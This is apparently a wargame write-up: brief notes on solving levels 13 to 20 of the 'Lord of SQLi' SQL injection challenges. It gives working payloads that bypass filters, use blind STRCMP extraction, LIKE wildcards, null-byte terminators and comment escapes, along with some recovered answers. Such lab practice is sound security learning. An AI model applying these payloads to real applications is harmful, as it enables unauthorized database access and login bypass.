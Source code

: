 ### 13 BUGBEAR
I did find the way in a second, using STRCMP and mid  
but, I kept 'no' variable empty.  
1\n||\nSTRCMP(id,"admin")\nIS\nFALSE\n&&\nSTRCMP(mid(pw,{i},1),char({j}))\nIS\nFALSE  
must give a parameter to equal variables.  

REL [bugbear.py](https://github.com/seolaf/lord-of-sqli/blob/main/13_bugbear.py), pw=52dc3991

### 14 GIANT
%0b %0c -> space!  

REL [giant.py](https://github.com/seolaf/lord-of-sqli/blob/main/14_giant.py)

### 15 ASSASSIN
cutie quiz.  
use % and _ to guess the pw.  

pw=%d__

### 16 SUCCUBUS
&pw=or 1=1 --  

using escape function!

### 17 ZOMBIE_ASSASSIN
"&pw=%20--%201=1%20ro  

using escape function!  

### 18 NIGHTMARE
pw=')=0;%00  
We can use double equation on this problem.  

pw=''=0 is interpreted as False=0 so it is true.  
and ;%00 is kind of delimiting sql query.  

### 19 XAVIS
It may not be ascii.  
length(substr(pw,1,1))=4  
It was an unicode  

REL [xavis.py](https://github.com/seolaf/lord-of-sqli/blob/main/19_xavis.py)
pw=우왕굳

There was some brilliant approach.  
(select @a:=pw where id='admin') union select @a  

### 20 DRAGON
quite annoying problem.  
Had to escape comment.  
The only wayt to escape comment is to end line.  

and pw=' and pw='' or id='admin' -- '  
so the query would be interpreted like,  
select id from prob_dragon where id='guest'# and pw='  
and pw='' or id='admin'  
